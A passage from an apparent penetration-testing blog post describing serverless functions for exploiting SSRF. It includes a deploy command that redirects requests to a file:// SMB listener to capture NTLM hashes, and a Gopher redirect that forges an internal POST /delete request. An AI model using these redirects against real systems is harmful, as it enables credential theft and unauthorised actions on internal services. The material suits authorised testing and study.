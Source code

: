  * `REDIRECT_URL` - the full URL, including protocol, to be set in the Location header
 * `STATUS` - the HTTP status code (default 301)

For example, sometimes it is possible to leverage a SSRF vulnerability to NTLM hash disclosure by redirecting an HTTP GET to a `file://` URI that points to a listening capture server. Spinning that up is trivial with now:

```
$ now -e REDIRECT_URL="file://192.168.98.1/foobar" -e STATUS=303 --public
```

Any HTTP request made to our serverless function will be redirected to an SMB share on the internal network.

![SMB Capture](/images/2018/11/ntlm_capture.png)

### Gopher Redirect
https://github.com/ropnop/serverless_toolkit/tree/master/gopher_redirect

Similar to above, this example makes use of the Gopher protocol to redirect incoming GET requests to arbitrary POST requests. Again, this is very useful for exploiting SSRF vulnerabilities where an outbound GET request can be turned into an internal POST request to some other service (if Gopher is supported)

This example constructs the Gopher URL from the `redirect_request.req` file. In the example, it constructs a POST request to `localhost:5000`

```
POST /delete HTTP/1.1
Host: localhost:5000
Connection: close
```

The deployment takes the environment variable `REDIRECT_HOST` to construct where to send the Gopher payload.

```
$ now -e REDIRECT_HOST="localhost:5000" --public
```

Any HTTP request made the function will be 307 Redirected to a Gopher url that mimics an HTTP POST to `localhost:5000`

![post5000](/images/2018/11/example_post.png)

### Request Dump
https://github.com/ropnop/serverless_toolkit/tree/master/req_dump

This function dumps any incoming request to JSON in the response. It's more of an example of what's possible, but it can be useful to see if any of your outbound requests have special headers or user-agents. You can also extract the external IP address that hit the serverless function.

To direct traffic to your servleress function, Cloudflare and Zeit add several HTTP headers. I've hardcoded the script to ignore those added headers, but they can be re-enabled by setting the environment variable `ALL_HEADERS` to true when deploying.

![req_dump](/images/2018/11/req_dump.png)
